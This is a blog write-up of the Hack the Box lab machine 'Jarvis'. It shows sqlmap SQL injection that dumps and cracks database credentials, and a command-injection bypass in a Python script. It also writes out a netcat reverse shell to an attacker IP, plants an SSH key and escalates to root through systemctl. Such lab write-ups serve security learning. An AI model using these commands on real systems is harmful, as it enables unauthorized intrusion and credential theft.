 +++
author = "Nick"
categories = ["CTF", "enumeration", "Linux", "metasploit", "netcat", "python", "reverse shell", "web services", "SQL Injection"]
date = 2019-11-09T16:06:00Z
description = ""
draft = false
thumbnail = "/images/2019/08/info-2.png"
slug = "hack-the-box-jarvis"
summary = "Today we're going to do the machine Jarvis on Hack the Box. This box was a total pain in the ass due to the way my reverse shell was terminating lines. After I figured out that was the problem it was easier. Lets jump in!"
tags = ["CTF", "enumeration", "Linux", "metasploit", "netcat", "python", "reverse shell", "web services", "SQL Injection"]
title = "Hack the Box - Jarvis"

+++


Today we're going to do the machine Jarvis on Hack the Box. This box was a total pain in the ass due to the way my reverse shell was terminating lines. After I figured out that was the problem it was easier. Lets jump in!

The first things we do is our standard nmap command ```nmap -sC -sV -oA jarvis 10.10.10.143``` We get back a small result

```
Nmap scan report for 10.10.10.143
Host is up (0.058s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

So the first thing we do is to head over to the http port and see what's being hosted. We see a hotel site. Many of the links are dead, but the rooms are not. So lets look at them. The first thing we notice is that the rooms page sends us to rooms-suites.php. There's a good chance that we can exploit some PHP. When we click on room 1 and wee it references ?cod=1

![](/images/2019/08/image-23.png" caption="This might be injectable.&nbsp;)

We can run some manual SQL injections against it to test. Turns out it is injectable. We actually get banned for 90 seconds by issuing '1=1'"--. So lets run some sqlmap against it. We run ```sqlmap -u http://10.10.10.143/room.php?cod=1 --dbs --no-cast``` We have to use --no-cast to convert our null values becuase the service running will likley ban us due to injection attempts.

![](/images/2019/08/image-10.png" caption="sqlmap -u http://10.10.10.143/room.php?cod=1 --dbs --no-cast)

Now that we've run our mapping successfully, we get back a list of databases. We will check the tables of the 'mysql' database by issuing ```sqlmap -u http://10.10.10.143/room.php?cod=1 -D mysql --tables```.

![](/images/2019/08/image-11.png)

Now that we've dumped the mysql table, lets dump the user portion of it. We issue ```sqlmap -u http://10.10.10.143/room.php?cod=1 -D mysql -T user --dump``` The -D is for Database, the -T is for Table and well we know what --dump does.

Once we've dumped the table we have a user of DBAdmin. SQLMAP will offer to crack the password for us, so why not.

![](/images/2019/08/image-12.png" caption="The cracked password for the phpmyadmin DBAdmin account.)

We know that there is a phpmyadmin console running from enumerating the web service with dirbuster and the default word list.

Next we'll use SQLMAP --shell functionality to see if we can create a reverse shell. We'll issue ```sqlmap -u http://10.10.10.143/room.php?cod=6 -D hotel --os-shell --no-cast```.

![](/images/2019/08/image-13.png)

It worked, we  get a shell as www-admin. So we'll poke around the box. We see that there is a user called Pepper, but we can't access the user.txt file. We try to do some manual enumeration and see that there is a file we can run, simpler.py.

![](/images/2019/08/image-14.png)

When we run the python app as us, we can't. We can however run it as pepper. When we do we're greeted with a command screen:

![](/images/2019/08/image-24.png)

The script seems to give us some info on who would be considered an attacker. Lets look at the source of the script. When we do we see this function, exec_ping() that correlates to the -p command of the script.

![](/images/2019/08/image-15.png)

Now this is where I was having issues with the program. No matter how many times I attempted to run the program, i would get EOF errors:

![](/images/2019/08/image-25.png" caption="EOF Error?!)

So turns out that the shell I was getting from SQLMAP was sending some odd terminal characters in the blank space?! So, I created a quick MSFPayload with MSFPC for a php reverse shell and everything was easy from there out!

This is a text book command injection, with a twist. We have some forbidden characters. So normally, we would be able to issue something like ```simpler.py -p 1 & {MALICIOUS COMMAND}```. This would tell the os to ping an ip of 1 and then execute our malicous command. However, since & is forbidden as well as most standard concatination commands we'll need to be a little bit more creative. We can use [command substitution](https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html) since the $ is not forbidden.

The first thing we'll do is a create a small script to initiate a netcat connection back to us.

```bash
echo 'nc 10.10.15.197 4444 -e /bin/bash' > remote.sh
```

We'll then use Command Substitution within the python program to call thsi script. So in the end we have something like this:

```bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
Enter an IP: $(/bin/bash remote.sh)
```
So we'll initiate a netcat session: ```nc -lvnp 4444```

After we run it, we see our netcat session light up!

![](/images/2019/08/image-18.png" caption="We've obtained user!)

Now that we're logged in as pepper, lets snag our user key and move onto root!

The shells on the free box have been quite flakey so to hopefully mitigate this, I generated a new id_rsa.pub file and copied it to the box for easy ssh access. Alternatively you can echo your key to the file if it already exists.

![](/images/2019/08/image-19.png)

Now that I can ssh into the box, we download LinEnum.sh to the machine and see what pops up.

![](/images/2019/08/image-20.png)

While parsing through the LinEnum outputs, we see this line:

![](/images/2019/08/image-21.png)

Pepper has the ability to run systemctl. That's quite handy. So we do some googling around and find this: [https://gtfobins.github.io/gtfobins/systemctl/](https://gtfobins.github.io/gtfobins/systemctl/). This will allow us to bypass the requirements for creating a Unit. So we can create a reverse shell task as root and hopefully obtain our flag!

![](/images/2019/08/image-26.png" caption="We follow the steps that are given to us by gtfobins and...)

We have root!

![](/images/2019/08/image-22.png)

Another one bites the dust! We'll see you next time!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

